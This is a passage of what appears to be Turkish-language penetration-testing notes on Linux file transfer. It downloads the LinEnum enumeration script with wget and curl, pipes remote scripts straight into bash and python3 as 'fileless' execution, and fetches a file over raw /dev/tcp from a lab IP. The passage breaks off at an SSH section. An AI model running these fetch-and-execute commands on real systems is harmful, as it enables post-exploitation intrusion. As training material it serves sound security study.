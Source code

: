 ##### 1-**wget Kullanarak Dosya İndirme**

```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

##### 2-**cURL Kullanarak Dosya İndirme**

```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```


### 3-**Linux Kullanarak Fileless Saldırıları**

##### 1-Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


##### 2-Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


### 4-**Bash ile indirme (/dev/tcp)**

##### 1-**Hedef Web Sunucusuna Bağlanın**

```shell-session
$ exec 3<>/dev/tcp/10.10.10.32/80
```

##### 2-HTTP GET Request

```shell-session
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

##### 3-Print the Response

```shell-session
$ cat <&3
```




### 5- SSH Downloads

##### 1-**SSH Sunucusunu Etkinleştirme**

```shell-session
sudo systemctl enable ssh
```
